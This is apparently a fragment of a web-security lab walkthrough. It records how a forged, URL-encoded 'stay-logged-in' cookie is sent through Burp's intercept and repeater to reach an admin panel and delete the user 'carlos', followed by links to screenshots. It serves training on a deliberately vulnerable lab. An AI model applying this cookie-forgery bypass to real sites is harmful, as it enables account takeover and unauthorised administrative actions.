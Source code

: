 ```bash
Intercept is on
Click "Home"

Change

Cookie: session=lnfbYP75b3DqJmO7bess1phMoKUJEmWI; stay-logged-in=8yYBZDyTHrJNAKkaZ0j3S9%2fr5N947vGNP4AX35XnXUg%3d

To

Cookie: stay-logged-in=
%48%61%42%42%6b%46%79%62%57%5a%48%65%31%64%32%30%44%58%4e%4f%62%73%65%70%58%49%46%47%55%52%4f%41%72%4c%6f%68%65%41%76%57%70%5a%67%3d

*Upon failure*
Send the request:

GET / HTTP/1.1

With response:

HTTP/1.1 400 Bad Request

To repeater

Cookie: stay-logged-in=%48%61%42%42%6b%46%79%62%57%5a%48%65%31%64%32%30%44%58%4e%4f%62%73%65%70%58%49%46%47%55%52%4f%41%72%4c%6f%68%65%41%76%57%70%5a%67%3d

Success
Access the "Admin panel" and delete the user "carlos"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041833.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041903.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041932.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041957.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715042041.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715042113.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715042139.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715042206.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715042232.png)
